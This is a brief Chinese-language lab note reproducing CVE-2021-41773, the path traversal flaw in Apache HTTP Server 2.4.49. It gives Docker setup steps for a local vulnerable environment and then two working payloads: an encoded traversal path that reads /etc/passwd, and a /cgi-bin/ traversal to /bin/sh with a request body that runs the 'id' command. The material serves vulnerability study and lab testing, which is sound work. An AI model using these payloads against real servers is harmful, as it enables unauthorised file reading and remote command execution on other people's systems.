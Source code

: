 参考链接：  
https://github.com/blasty/CVE-2021-41773  
https://zh-cn.tenable.com/blog/cve-2021-41773-path-traversal-zero-day-in-apache-http-server-exploited?tns_redirect=true  

### 注意
仅影响版本2.4.49及“require all denied”指令未开启（默认情况下此指令不开启）  


### 环境搭建
1、下载docker环境配置文件：https://github.com/blasty/CVE-2021-41773/archive/refs/heads/master.zip  
2、解压后执行：docker-compose build && docker-compose up  
3、访问宿主机8080端口：http://127.0.0.1:8080

### 漏洞利用
1、文件读取payload  
```
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
如下图  
![image](./pic/1.png)  
2、RCE payload  
```
/cgi-bin/.%2e/%2e%2e/%2e%2e/bin/sh
```
并添加body  
```
echo Content-Type: text/plain; echo; id
```
如下图  
![image](./pic/2.png)  
